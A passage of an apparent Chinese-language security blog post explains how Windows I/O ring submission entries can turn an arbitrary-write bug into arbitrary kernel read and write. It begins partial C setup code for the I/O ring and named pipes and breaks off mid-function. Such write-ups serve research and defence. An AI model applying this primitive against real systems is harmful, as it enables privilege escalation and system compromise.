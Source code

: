 submission queue entry的结构：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8GHwE1H1jzQiacMYzOFnBSwk0Su6SlTtgE0S2htJibjyGo33vvNy5gAeibFJqJic5KnPib0JkBcFCkO8MQ/640?wx_fmt=png "")  
  
以FileRef所指向的文件句柄和buffer进行读写操作，当操作为读时从文件处读取length长的数据并写入到buffer的Address中，当操作为写时从buffer的Address处读取length长的数据并写入到文件中。  
  
  
通过SubmitIoRing函数提交。  
  
  
正常情况下这个操作是不会出问题的，但是如果我们有一个任意写漏洞的时候会发生什么呢？  
  
  
如果我们将Buffer改写为我们申请出的一块内存，并且将address和length设置好，那么当操作是写时，从buffer的Address处读取length长的数据并写入到文件中，我们在从这个文件中读出数据就可以实现任意读，当操作是读时，从文件处读取length长的数据并写入到buffer的Address中，就可以实现任意写。  
  
  
也即通过BuildIoRingWriteFile实现任意读，通过BuildIoRingReadFile实现任意写。  
####   
#### 创建I/O ring  
  
  
创建I/O ring对象，再创建两个命名管道用做读写句柄。  
```
创建I/O ringint ioring_setup(PIORING_OBJECT* ppIoRingAddr)
{
    int ret = -1;
    IORING_CREATE_FLAGS ioRingFlags = { 0 };
 
    ioRingFlags.Required = IORING_CREATE_REQUIRED_FLAGS_NONE;
    ioRingFlags.Advisory = IORING_CREATE_REQUIRED_FLAGS_NONE;
 
    ret = CreateIoRing(IORING_VERSION_3, ioRingFlags, 0x10000, 0x20000, &hIoRing);
 
    if (0 != ret)
    {
        goto done;
    }
 
    ret = getobjptr(ppIoRingAddr, GetCurrentProcessId(), *(PHANDLE)hIoRing);
 
    if (0 != ret)
    {
        goto done;
    }
 
    pIoRing = *ppIoRingAddr;
 
    hInPipe = CreateNamedPipe(L"\\\\.\\pipe\\ioring_in", PIPE_ACCESS_DUPLEX, PIPE_WAIT, 255, 0x1000, 0x1000, 0, NULL);
    hOutPipe = CreateNamedPipe(L"\\\\.\\pipe\\ioring_out", PIPE_ACCESS_DUPLEX, PIPE_WAIT, 255, 0x1000, 0x1000, 0, NULL);
 
    if ((INVALID_HANDLE_VALUE == hInPipe) || (INVALID_HANDLE_VALUE == hOutPipe))
    {
        ret = GetLastError();
        goto done;
    }
 
    hInPipeClient = CreateFile(L"\\\\.\\pipe\\ioring_in", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    hOutPipeClient = CreateFile(L"\\\\.\\pipe\\ioring_out", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
 
    if ((INVALID_HANDLE_VALUE == hInPipeClient) || (INVALID_HANDLE_VALUE == hOutPipeClient))
    {
        ret = GetLastError();
```